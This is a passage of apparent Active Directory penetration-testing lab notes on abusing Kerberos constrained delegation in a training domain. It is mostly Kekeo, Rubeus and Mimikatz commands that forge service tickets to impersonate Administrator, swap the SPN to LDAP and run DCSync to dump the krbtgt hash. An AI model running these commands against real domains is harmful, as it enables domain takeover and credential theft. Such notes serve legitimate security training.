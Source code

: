 ```
tgs::s4u /tgt:TGT_websvc@DOLLARCORP.MONEYCORP.LOCAL_krbtgt~dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL.kirbi /user:Administrator@dollarcorp.moneycorp.local /service:cifs/dcorpmssql.dollarcorp.moneycorp.LOCAL
```

* Using mimikatz, inject the ticket -

```
Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL_cifs~dcorpmssql.dollarcorp.moneycorp.LOCAL@DOLLARCORP.MONEYCORP.LOCAL.kirbi"'
ls \\dcorp-mssql.dollarcorp.moneycorp.local\c$
```

#### Constrained Delegation using Rubeus-

**OR Abusing using Rubeus.exe -->**

* We can use the following command (We are requesting a TGT and TGS in a single command) -

```
Rubeus.exe s4u /user:websvc /aes256:2d84a12f614ccbf3d716b8339cbbe1a650e5fb352edc8e879470ade07e5412d7 /impersonateuser:Administrator /msdsspn:CIFS/dcorp-mssql.dollarcorp.moneycorp.LOCAL /ptt
ls \\dcorp-mssql.dollarcorp.moneycorp.local\c$
```

* Another interesting issue in Kerberos is that the delegation occurs not only for the specified service but for any service running under the same account. There is no validation for the SPN specified.
* This is huge as it allows access to many interesting services when the delegation may be for a non-intrusive service!

Either plaintext password or NTLM hash is required. If we have access to dcorpadminsrv hash

Using asktgt from Kekeo, we request a TGT -

```
tgt::ask /user:dcorp-adminsrv$ /domain:dollarcorp.moneycorp.local /rc4:1fadb1b13edbc5a61cbdc389e6f34c67
```

Using s4u from Kekeo\_one (no SNAME validation) -

```
tgs::s4u /tgt:TGT_dcorpadminsrv$@DOLLARCORP.MONEYCORP.LOCAL_krbtgt~dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL.kirbi /user:Administrator@dollarcorp.moneycorp.local /service:time/dcorpdc.dollarcorp.moneycorp.LOCAL|ldap/dcorpdc.dollarcorp.moneycorp.LOCAL
```

Using mimikatz -

```
Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL_ldap~dcorpdc.dollarcorp.moneycorp.LOCAL@DOLLARCORP.MONEYCORP.LOCAL_ALT.kirbi"'
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"' 
```

We can use the following command (We are requesting a TGT and TGS in a single command) -

```
Rubeus.exe s4u /user:dcorp-adminsrv$ /aes256:db7bd8e34fada016eb0e292816040a1bf4eeb25cd3843e041d0278d30dc1b445 /impersonateuser:Administrator /msdsspn:time/dcorp-dc.dollarcorp.moneycorp.LOCAL /altservice:ldap /ptt
```

